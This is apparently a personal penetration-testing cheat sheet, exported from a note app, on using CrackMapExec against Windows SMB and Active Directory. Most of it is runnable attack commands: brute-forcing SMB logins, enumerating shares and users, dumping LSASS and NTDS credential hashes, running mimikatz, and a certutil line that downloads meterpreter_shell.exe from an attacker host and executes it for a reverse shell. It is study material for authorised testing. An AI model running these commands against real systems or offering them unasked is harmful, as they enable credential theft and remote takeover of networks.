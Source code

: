 CrackMapExec

crackmapexec help: https://en.hackndo.com/remote-lsass-dump-passwords/

> crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@55w0rd!' -M lsassy

https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec/

# Network Enumeration

# Protocols

SMB, SSH, mssql, ldap, winrm

# SMB

## Bruteforce usernames and passwords against SMB

> crackmapexec smb &lt;IP&gt; -u &lt;usernamefile&gt; -p &lt;passwordfile&gt;

![0ef478452fcf630079a336e26bf0101b.png](:/1502174a0f18498d934cf6c67323155a)

Pwn3d only prints out if the user is a domain admin;

- Can use psexec or smbexec to get shell

--continue-on-success : continues to test users and passwords after getting a successful hit on one

## Enumerate Shares

> crackmapexec smb &lt;IP&gt; -u '&lt;username&gt;' -p '&lt;password&gt;' --shares

![bd6b1ca32bc7989e2f0dcf3968fbc8c9.png](:/36b4d86d6b5940b88eb393da74a1e75d)

## Other enumerations

- --disks : enumerate disks
- --users: enumerate usernames
    - Must specify the domain controller IP; cannot use a different server
    - ![0eb03ea88d9458febe05546f4c208c88.png](:/20c24ad425d44eccb64323d969aecf00)
- --sessions : active logon sessions
- --groups : enumerate groups
    - ![50af41d7f3daf7fc87203dbef36e9881.png](:/f068bc8a86de4db495f8e5a87282623e)
- asd

## See Password Policy

use --pass-pol

See the password policy of the user

![722fff211d2b6003e15cf56a19a21a84.png](:/08826853a5344c57aea0ad0248c0e940)

# Active Directory

## Credential gathering

Methods to obtain hashes

![2d463aba0948baf828984cc1ba691755.png](:/a095bfd81d244f74b0fe0a7f783908e8)

drsuAPI is the default for --ntds; vss = shadow copy

NTDS hashes

![c41ada05843cc4565c479f0c7242930d.png](:/2c7bac5e138c450b8db40f50d42102da)

## Using Module 

To list modules, use the -L flag

![f6f4c616f15fe2665f558dbab6ce7155.png](:/93757132520546ee9969dfdca2d61d52)

For help, use the flag --options

### Mimikatz

![56ae3ef3aa4856ddf3f44aa34636febc.png](:/8660d4639f51467fa3682e9fe0decc28)

Make sure to state -u and -p for it to work

Example

crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@55w0rd!' -M mimikatz -o COMMAND='privilege::debug'

![dfd3e2d45f9f38dbdec420c4b2599ef5.png](:/fb76d027d7194f6bad7ac6108333d1f6)

# Execute System Command (To get Reverse Shell)

![a7672b06a15243b1861a3e34750b3da2.png](:/1ed264f0296c44348176e9a7071b686d)

E.g. we have a payload and have opened a web server, and we have setup a multi/handler to get the reverse shell

> crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@wsw0rd1' -x 'certutil -urlcache -f http://192.168.1.2:8088/meterpreter_shell.exe mterpreter\_shell.exe && cmd /c meterpreter\_shell.exe'

![0b7da67312474b101094faa914a94067.png](:/df955198c3f448028aa960aa6bc61bae)

asd

id: 675162c6268c4652933f50981ec28893
parent_id: c900bb1263d649dd801144a9657e4075
created_time: 2022-02-03T02:58:35.296Z
updated_time: 2022-02-03T13:40:43.887Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-02-03T02:58:35.296Z
user_updated_time: 2022-02-03T13:40:43.887Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1